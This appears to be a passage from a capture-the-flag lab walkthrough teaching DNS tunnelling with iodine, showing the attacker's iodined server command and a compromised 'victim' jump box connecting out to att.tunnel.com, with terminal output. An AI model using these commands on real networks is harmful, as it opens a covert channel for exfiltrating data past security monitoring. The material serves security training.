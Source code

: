

Let's follow the steps to create a DNS tunnel. First, let's run the server-side application (iodined) as follows,


```
Running iodined Server

           
			
thm@attacker$ sudo iodined -f -c -P thmpass 10.1.1.1/24 att.tunnel.com                                                                                                                                                                     
Opened dns0
Setting IP of dns0 to 10.1.1.1
Setting MTU of dns0 to 1130
Opened IPv4 UDP socket
Listening to dns for domain att.tunnel.com

	    
```

Let's explain the previous command a bit more:

    Ensure to execute the command with sudo. The iodined creates a new network interface (dns0) for the tunneling over the DNS.
    The -f argument is to run the server in the foreground.
    The -c argument is to skip checking the client IP address and port for each DNS request.
    The -P argument is to set a password for authentication.
     The 10.1.1.1/24 argument is to set the network IP for the new network interface (dns0). The IP address of the server will be 10.1.1.1 and the client 10.1.1.2.
    att.tunnel.com is the nameserver we previously set.

On the JumpBox machine, we need to connect to the server-side application. To do so, we need to execute the following:

```
Victim Connects to the Server

           
			
thm@jump-box:~$ sudo iodine -P thmpass att.tunnel.com                                                                                                           
Opened dns0                                                                                                                                                     
Opened IPv4 UDP socket                                                                                                                                          
Sending DNS queries for att.tunnel.com to 127.0.0.11                                                                                                            
Autodetecting DNS query type (use -T to override).                                                                                                              
Using DNS type NULL queries                                                                                                                                     
Version ok, both using protocol v 0x00000502. You are user #0                                                                                                   
Setting IP of dns0 to 10.1.1.2                                                                                                                                  
Setting MTU of dns0 to 1130                                                                                                                                     
Server tunnel IP is 10.1.1.1                                                                                                                                    
Testing raw UDP data to the server (skip with -r)                                                                                                               
Server is at 172.20.0.200, trying raw login: OK                                                                                                                 
Sending raw traffic directly to 172.20.0.200                                                                                                                    
```